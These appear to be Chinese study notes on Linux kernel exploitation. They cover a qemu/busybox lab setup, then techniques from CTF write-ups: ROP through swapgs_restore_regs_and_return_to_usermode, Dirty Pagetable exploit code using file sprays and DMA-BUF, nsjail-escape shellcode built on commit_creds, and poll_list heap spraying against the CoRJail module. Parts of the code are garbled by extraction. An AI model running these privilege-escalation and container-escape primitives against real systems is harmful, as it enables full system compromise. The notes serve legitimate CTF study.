环境搭建
在Linux Kernel Archive 下载对应版本的内核源码
wget https://cdn.kernel.org/pub/linux/kernel/v5.x/linux-5.11.tar.xz tar -xvf linux-5.11.tar.xz cd linux-5.11.1/make menuconfig
勾选
Kernel hacking —> Kernel debugging
Kernel hacking —> Compile-time checks and compiler options —> Compile the kernel with debug info
Kernel hacking —> Generic Kernel Debugging Instruments –> KGDB: kernel debugger
编译
在arch/x86/boot/目录下提取到bzImage，为压缩后的内核文件 再下载busybox构建文件系统，在busybox.net 下载版本
wget https://busybox.net/downloads/busybox-1.33.0.tar.bz2 tar -jxvf busybox-1.33.0.tar.bz2 cd busybox-1.33.0/make menuconfig
勾选 Settings —> Build static file (no shared libs)
make install cd _installmkdir -pv {bin,tmp,sbin,etc,proc,sys,home,lib64,lib/x86_64-linux-gnu,usr/{bin,sbin}}touch etc/inittabmkdir etc/init.dtouch etc/init.d/rcSchmod +x ./etc/init.d/rcS
配置gedit etc/inittab
::sysinit:/etc/init.d/rcS ::askfirst:/bin/ash ::ctrlaltdel:/sbin/reboot ::shutdown:/sbin/swapoff -a ::shutdown:/bin/umount -a -r ::restart:/sbin/init
配置etc/init.d/rcS
sudo cat <<EOF > etc/init.d/rcS #!/bin/sh mount -t proc none /proc mount -t sysfs none /sys mount -t devtmpfs devtmpfs /dev mount -t tmpfs tmpfs /tmp mkdir /dev/pts mount -t devpts devpts /dev/pts echo -e "\nBoot took $(cut -d' ' -f1 /proc/uptime) seconds\n" setsid cttyhack setuidgid 1000 sh poweroff -d 0 -f EOF
配置用户组
echo "root:x:0:0:root:/root:/bin/sh" > etc/passwdecho "ctf:x:1000:1000:ctf:/home/ctf:/bin/sh" >> etc/passwdecho "root:x:0:" > etc/groupecho "ctf:x:1000:" >> etc/groupecho "none /dev/pts devpts gid=5,mode=620 0 0" > etc/fstab
打包文件系统
find . | cpio -o --format=newc > ../rootfs.cpio
如果需要添加文件可以解包文件系统再打包
cpio -idv < ./rootfs.cpio
qemu运行内核
bzImage和rootfs.cpio放到同一个目录下，然后编写sh脚本
#!/bin/sh qemu-system -x86_64 \ -m 128 M \ -kernel ./bzImage \ -initrd ./rootfs.cpio \ -monitor /dev/null \ -append "root=/dev/ram rdinit=/sbin/init console=ttyS0 oops=panic panic=1 loglevel=3 quiet kaslr" \ -cpu kvm64,+smep \ -smp cores=2 ,threads=1 \ -nographic \ -s
-m：虚拟机内存大小 -kernel：内存镜像路径 -initrd：磁盘镜像路径 -append：附加参数选项 nokalsr：关闭内核地址随机化，方便我们进行调试 rdinit：指定初始启动进程，/sbin/init进程会默认以 /etc/init.d/rcS 作为启动脚本 loglevel=3& quiet：不输出log console=ttyS0：指定终端为/dev/ttyS0，这样一启动就能进入终端界面 -monitor：将监视器重定向到主机设备/dev/null，这里重定向至null主要是防止CTF中被人给偷了qemu拿flag -cpu：设置CPU安全选项，在这里开启了smep保护（smep保护就不能采用ret2usr手法了） -s：相当于-gdb tcp::1234的简写（也可以直接这么写），后续我们可以通过gdb连接本地端口进行调试
debugfs
debugfs是linux中专门用于ext2~ext4文件系统的交互性调试工具
可以直接查看和修改文件系统的元数据和文件内容而不依赖于挂载文件系统
用法
debugfs -w -R "<command>" <filesystem/image>
在kernel pwn中最常见的command就是
提取文件
debugfs -w -R "dump <image-file> <file>" rootfs.img
写入文件
debugfs -w -R "write <file> <image-file>" roofs.img
删除文件
debugfs -w -R "rm <image-file>" rootfs.img
一般用于img文件，cpio的还是使用cpio打包和解包
nm
nm是linux下查看目标文件、可执行文件、静态库、动态库中符号表的工具
查看所有符号
查看全局符号
查看动态符号表
排序：-n按地址排序，-S按符号大小排序
地址显示：默认十六进制，d十进制，o八进制
c++符号解码：-C
通常使用
nm -n vmlinux | grep 'commit_creds$'
输出格式
XXXXXXXXXXXXXXXX <Type> <symbol_name>
Type
T/t：text段，大写T是全局函数，小写t是局部函数，比如static
D/d：data段，大写D是全局已初始化数据，反之为局部
B/b：bss段，大写B是全局未初始化数据段上，反之为局部
R/r：rodata段，同上全局和局部的区别
U：未定义符号，通常是链接外部库
W/w：弱符号
A：绝对符号
V/v：弱对象符号
？：未知符号类型
从bzImage提取vmlinux的工具
extract-vmlinux ./bzImage > vmlinux
vmlinux-to-elf
vmlinux-to-elf用于内核符号提取，能够从原始内核镜像中恢复可完全分析的ELF文件，通过提取内核符号表（kallsyms）恢复了函数符号和变量符号
vmlinux-to-elf <input_kernel.bin> <output_kernel.elf>
pahole
用于查询对应内核中所有结构体的信息，包括大小、各成员偏移量等
kernel pwn
swapgs_restore_regs_and_return_to_usermode
Dump of assembler code for function swapgs_restore_regs_and_return_to_usermode: <+0>: nop DWORD PTR [rax+rax*1+0x0] <+5>: pop r15 <+7>: pop r14 <+9>: pop r13 <+11>: pop r12 <+13>: pop rbp <+14>: pop rbx <+15>: pop r11 <+17>: pop r10 <+19>: pop r9 <+21>: pop r8 <+23>: pop rax <+24>: pop rcx <+25>: pop rdx <+26>: pop rsi <+27>: mov rdi,rsp <+30>: mov rsp,QWORD PTR gs:0x6004 <+39>: push QWORD PTR [rdi+0x30] <+42>: push QWORD PTR [rdi+0x28] <+45>: push QWORD PTR [rdi+0x20] <+48>: push QWORD PTR [rdi+0x18] <+51>: push QWORD PTR [rdi+0x10] <+54>: push QWORD PTR [rdi] <+56>: push rax <+57>: xchg ax,ax <+59>: mov rdi,cr3 <+62>: jmp <+116> <swapgs_restore_regs_and_return_to_usermode+116> <+64>: mov rax,rdi <+67>: and rdi,0x7ff <+74>: bt QWORD PTR gs:0x33956,rdi <+84>: jae <+101> <swapgs_restore_regs_and_return_to_usermode+101> <+86>: btr QWORD PTR gs:0x33956,rdi <+96>: mov rdi,rax <+99>: jmp <+109> <swapgs_restore_regs_and_return_to_usermode+109> <+101>: mov rdi,rax <+104>: bts rdi,0x3f <+109>: or rdi,0x800 <+116>: or rdi,0x1000 <+123>: mov cr3,rdi <+126>: pop rax <+127>: pop rdi <+128>: swapgs <+131>: jmp 0xffffffff81c01060 <native_iret> <+136>: nop End of assembler dump.
在实际操作直接从 <+27> mov rdi, rsp / <+59> mov rdi, cr3 开始，总结为如下操作：
mov rdi, cr3 or rdi, 0x1000 mov cr3, rdi pop rax pop rdi swapgs iretq
rop写成
swapgs_restore_regs_and_return_to_usermode 0 0 user_shell_addr user_cs user_rflags user_sp user_ss
Kernel Heap -UAF
内核的堆内存主要来源于线性映射区，主要使用kmalloc分配函数和slub分配区
slub分配区会优先从当前核心的kmem_cache_cpu中进行内存分配，多个核心存在多个kmem_cache_cpu，进程的调度可能让我们的程序不同时间在不同核心下运行，导致我们的堆内存来源于不同的kmem_cache_cpu，利用变得不必要的麻烦
可以将我们的进程绑定到特定的某个CPU核心上
#define _GNU_SOURCE #include <sched.h> void bind_cpu (int core) { cpu_set_t cpu_set; CPU_ZERO(&cpu_set); CPU_SET(core, &cpu_set); sched_setaffinity(getpid(), sizeof (cpu_set), &cpu_set); }
内核最为常见和通用的flag为GFP_KERNEL和GFP_KERNEL_ACCOUNT通常来自同一个kmem_cache，GFP_KERNEL_ACCOUNT表示该对象与来自用户空间的数据相关联 ，另一个则相反，自5.14开始，这两种flag的分配被隔离，GFP_KERNEL_ACCOUNT有一组独立的kmem_cache称为kmalloc-cg-*
fetipop
fetipop – kqx
调用mmap时物理地址不会立即被映射，而是创建一个VMA用于描述用户空间虚拟映射的结构
其结构体如下
mm_types.h - include/linux/mm_types.h - Linux source code v7.0.10 - Bootlin Elixir Cross Referencer
struct vm_area_struct { union { struct { unsigned long vm_start; unsigned long vm_end; }; freeptr_t vm_freeptr; }; struct mm_struct *vm_mm ; pgprot_t vm_page_prot; union { const vm_flags_t vm_flags; vma_flags_t flags; }; #ifdef CONFIG_PER_VMA_LOCK unsigned int vm_lock_seq; #endif struct list_head anon_vma_chain ; struct anon_vma *anon_vma ; const struct vm_operations_struct *vm_ops ; unsigned long vm_pgoff; struct file * vm_file ; void * vm_private_data; #ifdef CONFIG_SWAP atomic_long_t swap_readahead_info; #endif #ifndef CONFIG_MMU struct vm_region *vm_region ; #endif #ifdef CONFIG_NUMA struct mempolicy *vm_policy ; #endif #ifdef CONFIG_NUMA_BALANCING struct vma_numab_state *numab_state ; #endif #ifdef CONFIG_PER_VMA_LOCK refcount_t vm_refcnt ____cacheline_aligned_in_smp; #ifdef CONFIG_DEBUG_LOCK_ALLOC struct lockdep_map vmlock_dep_map ; #endif #endif struct { struct rb_node rb ; unsigned long rb_subtree_last; } shared; #ifdef CONFIG_ANON_VMA_NAME struct anon_vma_name *anon_name ; #endif struct vm_userfaultfd_ctx vm_userfaultfd_ctx ; #ifdef __HAVE_PFNMAP_TRACKING struct pfnmap_track_ctx *pfnmap_track_ctx ; #endif } __randomize_layout;
mmap将这些分配的虚拟地址所对应的页表项全部指向zero_pfn(page frame number)，权限设为只读，这样分配的页全是0x00满足了要求，也提高了效率，在存储数据前无需消耗内存
对未映射的地址进行写入操作触发缺页异常，内核会遍历VMA，如果发生异常的地址存在对应的VMA，则会分配并映射物理页，进程继续执行
通过映射zero_pfn可以泄露一个属于内核内存区域的地址
在每个linux版本，IDT都紧跟在zero_pfn之后映射，这意味着通过破坏PTE（页表项），可以获得对IDT的读写访问权限，进而导致权限提升
方法比如有
struct file UAF
Understanding Dirty Pagetable - m0leCon Finals 2023 CTF Writeup - CTFするぞ
m0leCon_CTF_Finals / keasy — writeups-2023 — Bitbucket
此时在专用SLAB缓存也可完成利用（通过files_cache的专用slab缓存进行分配，文件以外的对象不会占据UAF的文件对象）
cross-cache attack
堆喷在专用缓存中的对象，一个对象进行UAF，其他全部释放，使该slab页面被释放
从伙伴系统取回释放的页面进行利用
dirty cred
dirty pagetable
虚拟地址通过四级页表转变为物理地址，这种方法针对的是PTE（物理内存前的最后一级映射）
创建新的PTE时，伙伴系统为PTE分配对应的物理页帧
我们可以在UAF的指针上分配一个PTE
void bind_core (int core) { cpu_set_t cpu_set; CPU_ZERO(&cpu_set); CPU_SET(core, &cpu_set); sched_setaffinity(getpid(), sizeof (cpu_set), &cpu_set); } ... int main () { int file_spray[N_FILESPRAY]; void *page_spray[N_PAGESPRAY]; bind_core(0 ); int fd = open("/dev/keasy" , O_RDWR); if (fd == -1 ) fatal("/dev/keasy" ); for (int i = 0 ; i < N_PAGESPRAY; i++) { page_spray[i] = mmap((void *)(0xdead0000U L + i*0x10000U L), 0x8000 , PROT_READ|PROT_WRITE, MAP_ANONYMOUS|MAP_SHARED, -1 , 0 ); if (page_spray[i] == MAP_FAILED) fatal("mmap" ); } puts ("[+] Spraying files..." ); for (int i = 0 ; i < N_FILESPRAY/2 ; i++) if ((file_spray[i] = open("/" , O_RDONLY)) < 0 ) fatal("/" ); int ezfd = file_spray[N_FILESPRAY/2 -1 ] + 1 ; if (ioctl(fd, 0 , 0xdeadbeef ) == 0 ) fatal("ioctl did not fail" ); for (int i = N_FILESPRAY/2 ; i < N_FILESPRAY; i++) if ((file_spray[i] = open("/" , O_RDONLY)) < 0 ) fatal("/" ); puts ("[+] Releasing files..." ); for (int i = 0 ; i < N_FILESPRAY; i++) close(file_spray[i]); puts ("[+] Allocating PTEs..." ); for (int i = 0 ; i < N_PAGESPRAY; i++) for (int j = 0 ; j < 8 ; j++) *(char *)(page_spray[i] + j*0x1000 ) = 'A' + j; getchar(); return 0 ; }
exploitation for a file structure
利用文件结构进行攻击比较困难，因为可供控制的字段很少，不过可以使用dup的方法
fs.h - include/linux/fs.h - Linux source code v7.0.10 - Bootlin Elixir Cross Referencer
struct file { union { struct llist_node f_llist ; struct rcu_head f_rcuhead ; unsigned int f_iocb_flags; }; spinlock_t f_lock; fmode_t f_mode; atomic_long_t f_count; struct mutex f_pos_lock ;
f_count表示文件对象的引用计数，使用dup系统调用来复制文件描述符时该计数会增加，PTE指针会递增
调用dup 0x1000次，PTE中f_count对应位置的条目将指向下一页，从而使两个PTE中的条目指向同一物理地址
经过此次修改，尝试读取每个页面并检查页面中写入的数据是否发生变化，从而找到overlapping page
for (int i = 0 ; i < 0x1000 ; i++) if (dup(ezfd) < 0 ) fatal("dup" ); puts ("[+] Searching for overlapping page..." ); void *evil = NULL ; for (int i = 0 ; i < N_PAGESPRAY; i++) { if (*(char *)(page_spray[i] + 7 *0x1000 ) != 'A' + 7 ) { evil = page_spray[i] + 0x7000 ; printf ("[+] Found overlapping page: %p\n" , evil); break ; } } if (evil == NULL ) fatal("target not found :(" );
这样就会造成两个用户态虚拟地址指向同一个物理地址，这样我们就可以找到可以篡改PTE的用户态虚拟地址
用户态与内核态物理内存之间存在距离，可以使用 DMA-BUF 堆（ io_uring 由于 nsjail 的限制无法使用）
DMA-BUF是一种用于多设备间快速安全访问的内存，可以通过/dev/dma_heap/system打开DMA设备来控制DMA-BUF堆，通过调用DMA_HEAP_IOCTL_ALLOC可以分配一块可映射到用户空间的内存
通过此IOCTL映射的页面将被分配在靠近PTE的物理内存上
如果准备一个DMA-BUF堆页面作为PTE条目，并利用f_count对其篡改
因为我们已经直到哪个用户态页面可以破坏PTE，对其munmap后对DMA-BUF堆页面执行mmap操作，使f_count与DMA-BUF堆页面的PTE条目重叠
关键在于，DMA-BUF堆分配页旁边存在一个PTE，再次dup 0x1000 来递增f_count，映射到用户空间的DMA-BUF堆页将指向该页表
通过读写映射到用户空间的DMA-BUF页，就可以控制PTE，通过修改PTE的条目，使其某个条目指向任意地址
puts ("[+] Allocating PTEs..." ); for (int i = 0 ; i < N_PAGESPRAY/2 ; i++) for (int j = 0 ; j < 8 ; j++) *(char *)(page_spray[i] + j*0x1000 ) = 'A' + j; int dma_buf_fd = -1 ; struct dma_heap_allocation_data data ; data.len = 0x1000 ; data.fd_flags = O_RDWR; data.heap_flags = 0 ; data.fd = 0 ; if (ioctl(dmafd, DMA_HEAP_IOCTL_ALLOC, &data) < 0 ) fatal("DMA_HEAP_IOCTL_ALLOC" ); printf ("[+] dma_buf_fd: %d\n" , dma_buf_fd = data.fd); for (int i = N_PAGESPRAY/2 ; i < N_PAGESPRAY; i++) for (int j = 0 ; j < 8 ; j++) *(char *)(page_spray[i] + j*0x1000 ) = 'A' + j; for (int i = 0 ; i < 0x1000 ; i++) if (dup(ezfd) < 0 ) fatal("dup" ); puts ("[+] Searching for overlapping page..." ); void *evil = NULL ; for (int i = 0 ; i < N_PAGESPRAY; i++) { if (*(char *)(page_spray[i] + 7 *0x1000 ) != 'A' + 7 ) { evil = page_spray[i] + 0x7000 ; printf ("[+] Found overlapping page: %p\n" , evil); break ; } } if (evil == NULL ) fatal("target not found :(" ); puts ("[+] Remapping..." ); munmap(evil, 0x1000 ); void *dma = mmap(evil, 0x1000 , PROT_READ | PROT_WRITE, MAP_SHARED | MAP_POPULATE, dma_buf_fd, 0 ); *(char *)dma = '0' ; for (int i = 0 ; i < 0x1000 ; i++) if (dup(ezfd) < 0 ) fatal("dup" ); printf ("[+] DMA-BUF now points to PTE: 0x%016lx\n" , *(size_t *)dmabuf);
仍有一些固定的物理地址
0x00007ffd333c7000-0x00007ffd333c8000 0x000000013af20000-0x000000013af20000 0x1000 0xffff93ee40000000-0xffff93ee40098000 0x0000000000000000-0x0000000000098000 0x98000 0xffff93ee40098000-0xffff93ee40099000 0x0000000000098000-0x0000000000099000 0x1000 0xffff93ee40099000-0xffff93ee4009b000 0x0000000000099000-0x000000000009b000 0x2000 0xffff93ee4009b000-0xffff93ee40200000 0x000000000009b000-0x0000000000200000 0x165000 0xffff93ee40200000-0xffff93eeeea00000 0x0000000000200000-0x00000000aea00000 0xae800000
对应
void *wwwbuf = NULL ;*(size_t *)dmabuf = 0x800000000009c067 ; for (int i = 0 ; i < N_PAGESPRAY; i++) { if (page_spray[i] == evil) continue ; if (*(size_t *)page_spray[i] > 0xffff ) { wwwbuf = page_spray[i]; printf ("[+] Found victim page table: %p\n" , wwwbuf); break ; } } size_t phys_base = ((*(size_t *)wwwbuf) & ~0xfff ) - 0x1c04000 ;printf ("[+] Physical kernel base address: 0x%016lx\n" , phys_base);
nsjail逃逸
利用物理内存任意地址写AAW原语，使用shellcode覆盖linux内核中某个随机函数的机器码，symlink函数的do_symlinkat
init_cred equ 0x1445ed8 commit_creds equ 0x00ae620 find_task_by_vpid equ 0x00a3750 init_nsproxy equ 0x1445ce0 switch_task_namespaces equ 0x00ac140 init_fs equ 0x1538248 copy_fs_struct equ 0x027f890 kpti_bypass equ 0x0c00f41 _start: endbr64 call a a: pop r15 sub r15, 0x24d4c9 ; commit_creds(init_cred) [3 ] lea rdi, [r15 + init_cred] lea rax, [r15 + commit_creds] call rax ; task = find_task_by_vpid(1 ) [4 ] mov edi, 1 lea rax, [r15 + find_task_by_vpid] call rax ; switch_task_namespaces(task, init_nsproxy) [5 ] mov rdi, rax lea rsi, [r15 + init_nsproxy] lea rax, [r15 + switch_task_namespaces] call rax ; new_fs = copy_fs_struct(init_fs) [6 ] lea rdi, [r15 + init_fs] lea rax, [r15 + copy_fs_struct] call rax mov rbx, rax ; current = find_task_by_vpid(getpid()) mov rdi, 0x1111111111111111 ; will be fixed at runtime lea rax, [r15 + find_task_by_vpid] call rax ; current->fs = new_fs [8 ] mov [rax + 0x740 ], rbx ; kpti trampoline [9 ] xor eax, eax mov [rsp+0x00 ], rax mov [rsp+0x08 ], rax mov rax, 0x2222222222222222 ; win mov [rsp+0x10 ], rax mov rax, 0x3333333333333333 ; cs mov [rsp+0x18 ], rax mov rax, 0x4444444444444444 ; rflags mov [rsp+0x20 ], rax mov rax, 0x5555555555555555 ; stack mov [rsp+0x28 ], rax mov rax, 0x6666666666666666 ; ss mov [rsp+0x30 ], rax lea rax, [r15 + kpti_bypass] jmp rax int3
[corCTF 2022] CoRJail: From Null Byte Overflow To Docker Escape Exploiting poll_list Objects In The Linux Kernel
#include <linux/kernel.h> #include <linux/module.h> #include <linux/proc_fs.h> #include <linux/slab.h> #include <linux/types.h> #include <linux/seq_file.h> #include <trace/syscall.h> #include <asm/syscall.h> #include <asm/ftrace.h> MODULE_AUTHOR("D3v17" ); MODULE_LICENSE("GPL" ); extern struct syscall_metadata *syscall_nr_to_meta (int nr) ;extern const char *get_syscall_name (int syscall_nr) ;static int get_syscall_nr (char *sc) ;static int update_filter (char *syscalls) ;static int cormon_proc_open (struct inode *inode, struct file *file) ;static ssize_t cormon_proc_write (struct file *file, const char __user *ubuf,size_t count, loff_t *ppos) ; static void *cormon_seq_start (struct seq_file *seqfile, loff_t *pos) ;static void *cormon_seq_next (struct seq_file *seqfile, void *v, loff_t *pos) ;static void cormon_seq_stop (struct seq_file *seqfile, void *v) ;static int cormon_seq_show (struct seq_file *f, void *ppos) ;static int init_procfs (void ) ;static void cleanup_procfs (void ) ;DECLARE_PER_CPU(u64[NR_syscalls], __per_cpu_syscall_count); static uint8_t filter[NR_syscalls];static struct proc_dir_entry *cormon ;static char initial_filter[] = "sys_execve,sys_execveat,sys_fork,sys_keyctl,sys_msgget,sys_msgrcv" "sys_msgsnd,sys_poll,sys_ptrace,sys_setxattr,sys_unshare" ; static const struct proc_ops cormon_proc_ops = .proc_open = cormon_proc_open, .proc_read = seq_read, .proc_write = cormon_proc_write }; static struct seq_operations cormon_seq_ops = .start = cormon_seq_start, .next = cormon_seq_next, .stop = cormon_seq_stop, .show = cormon_seq_show }; static int get_syscall_nr (char *sc) { struct syscall_metadata *entry ; int nr; for (nr = 0 ; nr < NR_syscalls; nr++) { entry = syscall_nr_to_meta(nr); if (!entry) continue ; if (arch_syscall_match_sym_name(entry->name, sc)) return nr; } return -EINVAL; } static int update_filter (char *syscalls) { uint8_t new_filter[NR_syscalls] = { 0 }; char *name; int nr; while ((name = strsep(&syscalls, "," )) != NULL || syscalls != NULL ) { nr = get_syscall_nr(name); if (nr < 0 ) { printk(KERN_ERR "[CoRMon::Error] Invalid syscall: %s!\n" , name); return -EINVAL; } new_filter[nr] = 1 ; } memcpy (filter, new_filter, sizeof (filter)); return 0 ; } static int cormon_proc_open (struct inode *inode, struct file *file) { return seq_open(file, &cormon_seq_ops); } static ssize_t cormon_proc_write (struct file *file, const char __user *ubuf, size_t count, loff_t *ppos) { loff_t offset = *ppos; char *syscalls; size_t len; if (offset < 0 ) return -EINVAL; if (offset >= PAGE_SIZE || !count) return 0 ; len = count > PAGE_SIZE ? PAGE_SIZE - 1 : count; syscalls = kmalloc(PAGE_SIZE, GFP_ATOMIC); printk(KERN_INFO "[CoRMon::Debug] Syscalls @ %#llx\n" , (uint64_t )syscalls); if (!syscalls) { printk(KERN_ERR "[CoRMon::Error] kmalloc() call failed!\n" ); return -ENOMEM; } if (copy_from_user(syscalls, ubuf, len)) { printk(KERN_ERR "[CoRMon::Error] copy_from_user() call failed!\n" ); return -EFAULT; } syscalls[len] = '\x00' ; if (update_filter(syscalls)) { kfree(syscalls); return -EINVAL; } kfree(syscalls); return count; } static void *cormon_seq_start (struct seq_file *s, loff_t *pos) { return *pos > NR_syscalls ? NULL : pos; } static void *cormon_seq_next (struct seq_file *s, void *v, loff_t *pos) { return (*pos)++ > NR_syscalls ? NULL : pos; } static void cormon_seq_stop (struct seq_file *s, void *v) { return ; } static int cormon_seq_show (struct seq_file *s, void *pos) { loff_t nr = *(loff_t *)pos; const char *name; int i; if (nr == 0 ) { seq_putc(s, '\n' ); for_each_online_cpu(i) seq_printf(s, "%9s%d" , "CPU" , i); seq_printf(s, "\tSyscall (NR)\n\n" ); } if (filter[nr]) { name = get_syscall_name(nr); if (!name) return 0 ; for_each_online_cpu(i) seq_printf(s, "%10llu" , per_cpu(__per_cpu_syscall_count, i)[nr]); seq_printf(s, "\t%s (%lld)\n" , name, nr); } if (nr == NR_syscalls) seq_putc(s, '\n' ); return 0 ; } static int init_procfs (void ) { printk(KERN_INFO "[CoRMon::Init] Initializing module...\n" ); cormon = proc_create("cormon" , 0666 , NULL , &cormon_proc_ops); if (!cormon) { printk(KERN_ERR "[CoRMon::Error] proc_create() call failed!\n" ); return -ENOMEM; } if (update_filter(initial_filter)) return -EINVAL; printk(KERN_INFO "[CoRMon::Init] Initialization complete!\n" ); return 0 ; } static void cleanup_procfs (void ) { printk(KERN_INFO "[CoRMon::Exit] Cleaning up...\n" ); remove_proc_entry("cormon" , NULL ); printk(KERN_INFO "[CoRMon::Exit] Cleanup done, bye!\n" ); } module_init(init_procfs); module_exit(cleanup_procfs);
在禁用msg_msg结构体、userfaultfd、io_uring、nftables、modprobe_path、namespace隔离限制、slab强化时如何完成利用呢
poll_list
该结构可在容器内部直接使用，无需满足任何特定条件
poll()系统调用用来监控一个或多个文件描述符上的活动，poll_list对象会在内核空间中被分配
int poll (struct pollfd fds[], nfds_t nfds, int timeout) ;struct pollfd { int fd; short events; short revents; }; struct poll_list { struct poll_list *next ; int len; struct pollfd entries []; };
poll()->do_sys_poll()
#define POLL_STACK_ALLOC 256 #define PAGE_SIZE 4096 #define POLLFD_PER_PAGE ((PAGE_SIZE-sizeof(struct poll_list)) / sizeof(struct pollfd)) #define N_STACK_PPS ((sizeof(stack_pps) - sizeof(struct poll_list)) / \ sizeof(struct pollfd)) [...] static int do_sys_poll (struct pollfd __user *ufds, unsigned int nfds, struct timespec64 *end_time) { struct poll_wqueues table ; int err = -EFAULT, fdcount, len; long stack_pps[POLL_STACK_ALLOC/sizeof (long )]; struct poll_list *const head =struct poll_list *)stack_pps; struct poll_list *walk = unsigned long todo = nfds; if (nfds > rlimit(RLIMIT_NOFILE)) return -EINVAL; len = min_t (unsigned int , nfds, N_STACK_PPS); for (;;) { walk->next = NULL ; walk->len = len; if (!len) break ; if (copy_from_user(walk->entries, ufds + nfds-todo, sizeof (struct pollfd) * walk->len)) goto out_fds; todo -= walk->len; if (!todo) break ; len = min(todo, POLLFD_PER_PAGE); walk = walk->next = kmalloc(struct_size(walk, entries, len), GFP_KERNEL); if (!walk) { err = -ENOMEM; goto out_fds; } } poll_initwait(&table); fdcount = do_poll(head, &table, end_time); poll_freewait(&table); if (!user_write_access_begin(ufds, nfds * sizeof (*ufds))and) goto out_fds; for (walk = head; walk; walk = walk->next) { struct pollfd *fds = int j; for (j = walk->len; j; fds++, ufds++, j--) unsafe_put_user(fds->revents, &ufds->revents, Efault); } user_write_access_end(); err = fdcount; out_fds: walk = head->next; while (walk) { struct poll_list *pos = walk = walk->next; kfree(pos); } return err; Efault: user_write_access_end(); err = -EFAULT; goto out_fds; }
do_sys_poll() 有两条路径：慢路径和快路径。
从函数开头可以看到，定义了一个 256 字节的缓冲区 stack_pps [1]，用于存储前 30 个 pollfd 条目[2]。这就是快路径：将条目存储在栈上以节省内存并提升速度。
如果我们提交超过 30 个 pollfd 条目，就会进入慢速路径，剩余的条目将在内核堆上分配。这意味着，只要计算得当，通过控制被监控文件描述符的数量，我们就能控制分配的大小，范围从 kmalloc-32 到 kmalloc-4k。[4]
每页最多可分配 POLLFD_PER_PAGE（510）个条目。[3] 若超出此限制，则会分配新的 poll_list 来存储剩余条目，并通过单向链表与前一节点相连。for 循环将持续执行，直至所有条目均被存入内核内存。例如，假设我们调用 poll() 并向系统调用提供 510 + 1 个文件描述符。在内核空间中，这会导致在 kmalloc-4k 中分配一个包含 510 个条目的 poll_list ，以及在 kmalloc-32 中分配另一个仅含单个条目的 poll_list 。这些结构通过单向链表连接。
在所有 poll_list 对象分配完成后，会调用 do_poll()函数：该函数将监控提供的文件描述符，直到特定事件发生或定时器超时。[5] 这里的 end_time 变量，对应我们作为第三个参数传递给 poll() 系统调用的 timeout 变量。
这意味着 poll_list 对象可以在内存中保留任意时长，当定时器到期时，它们会被自动释放。
最有趣的部分在于 poll_list 结构的释放方式：通过一个 while 循环遍历单向链表，逐个释放每个节点。[6] 现在让我们从攻击者的角度审视现有条件。
我们拥有一个可在多个缓存（从 kmalloc-32 到 kmalloc-4k）中分配的结构体，其 next 字段（第一个 QWORD）指向的对象会在我们可控的定时器到期时自动释放。这意味着，借助越界写入或释放后使用写入原语，我们可以用目标对象的地址覆盖 poll_list 结构的 next 字段，当定时器触发时，该目标对象将被自动释放。
唯一的限制是：目标对象的第一个 QWORD 必须为 NULL，否则 while 循环会将其视为有效指针并尝试访问。这并非难题——我们可以使用未对齐的释放原语，或直接选择第一个 QWORD 为零的对象作为目标。
在 kmalloc-4k 的具体场景中，如果 poll_list->next 字段已包含指向另一个 poll_list 的有效指针，我们可以通过部分覆盖（甚至只需一个字节）来破坏该指针，使其指向 slab 中的另一个对象。当定时器到期时，内核将被欺骗释放错误的对象。这正是我们在漏洞利用中将要实现的操作。
以下代码可用于在内核空间中分配 poll_list 结构体。需要注意的是，由于 poll() 系统调用会阻塞直到特定事件发生或定时器超时，因此我们需要使用线程来喷射该对象。
#define N_STACK_PPS 30 #define POLLFD_PER_PAGE 510 #define POLL_LIST_SIZE 16 #define NFDS(size) (((size - POLL_LIST_SIZE) / sizeof(struct pollfd)) + N_STACK_PPS); pthread_t poll_tid[0x1000 ];size_t poll_threads;pthread_mutex_t mutex = PTHREAD_MUTEX_INITIALIZER;struct t_args { int id; int nfds; int timeout; }; void *alloc_poll_list (void *args) { struct pollfd *pfds ; int nfds, timeout, id; id = ((struct t_args *)args)->id; nfds = ((struct t_args *)args)->nfds; timeout = ((struct t_args *)args)->timeout; pfds = calloc (nfds, sizeof (struct pollfd)); for (int i = 0 ; i < nfds; i++) { pfds[i].fd = fds[0 ]; pfds[i].events = POLLERR; } pthread_mutex_lock(&mutex); poll_threads++; pthread_mutex_unlock(&mutex); int ret = poll(pfds, nfds, timeout); } void create_poll_thread (int id, size_t size, int timeout) { struct t_args *args ; args = calloc (1 , sizeof (struct t_args)); if (size > PAGE_SIZE) size = size - ((size/PAGE_SIZE) * sizeof (struct poll_list)); args->id = id; args->nfds = NFDS(size); args->timeout = timeout; pthread_create(&poll_tid[id], 0 , alloc_poll_list, (void *)args); } void join_poll_threads (void ) { for (int i = 0 ; i < poll_threads; i++) pthread_join(poll_tid[i], NULL ); poll_threads = 0 ; } [...] fds[i] = open("/etc/passwd" , O_RDONLY); for (int i = 0 ; i < 8 ; i++) create_poll_thread(i, 4096 + 32 , 3000 ); join_poll_threads(); [...]
我们需要选择一个目标结构，一旦被任意释放，就可以被破坏，并为我们提供越界读取原语，进而实现信息泄露。Linux 内核中有多个弹性对象可以实现这一目的。一个不错的候选是 simple_xattr，但我们需要目标对象的第一个 QWORD 为 NULL，因此无法使用它。由于 add_key() 和 keyctl() 未被 seccomp 阻止，我们可以选择 user_key_payload 作为替代。
该结构的问题在于，其第一个成员 struct rcu_head rcu 未被初始化，且由于该结构通过 kmalloc 分配，第一个 QWORD 可能不为 NULL。一个实用的解决方案来自 setxattr()：我们可以在分配每个用户密钥之前，用它来将内存块填充为零。
static long setxattr (struct dentry *d, const char __user *name, const void __user *value, size_t size, int flags) { [...] if (size > XATTR_SIZE_MAX) return -E2BIG; kvalue = kvmalloc(size, GFP_KERNEL); if (!kvalue) return -ENOMEM; if (copy_from_user(kvalue, value, size)) { error = -EFAULT; goto out; } [...] out: kvfree(kvalue); return error; }
利用 setxattr() 功能，我们可以分配任意大小的内存块 [1] 并用任意数据填充 [2]，随后该内存块会被自动释放 [3]。我们可以利用此功能确保 user_key_payload 中未初始化的成员实际为零。
我们只需在 alloc_key() 之前调用 setxattr() ：由于空闲列表的后进先出特性，当 setxattr() 使用的内存块被分配、填充零并释放后，该内存块将被用户密钥重新使用。这样我们就能确保第一个 QWORD 被设置为 NULL。
